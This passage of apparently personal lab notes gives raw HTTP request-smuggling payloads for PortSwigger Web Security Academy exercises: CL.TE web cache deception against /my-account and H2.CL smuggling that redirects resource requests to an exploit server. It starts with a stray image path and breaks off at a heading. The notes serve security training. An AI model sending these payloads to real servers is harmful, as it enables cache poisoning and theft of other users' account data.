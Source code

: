 0


GET /post/next?postId=4 HTTP/1.1
Host: exploit-acff1fb51f72bf78c0560d1201d200e2.web-security-academy.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10


X=1


# 7. Lab: Exploiting HTTP request smuggling to perform web cache deception
https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception

**CL.TE Cache Deception**

POST / HTTP/1.1
Host: acde1f821f1afb5ec028f00500350099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Transfer-Encoding: chunked

0


GET /my-account HTTP/1.1
X-Ignore: X

# **Advanced request smuggling**
https://portswigger.net/web-security/request-smuggling/advanced

# 1.Lab: H2.CL request smuggling
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling


POST / HTTP/2
Host: acee1fff1f18c42dc0510c2d00ab00fd.web-security-academy.net
Content-Length: 0


GET /resources HTTP/1.1
Host: exploit-ac2e1f281f3ec410c0430c8601f40002.web-security-academy.net
Content-Length: 5


x=1
# 2. Lab: HTTP/2 request smuggling via CRLF injection
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection

**H2.TE using CRLF**
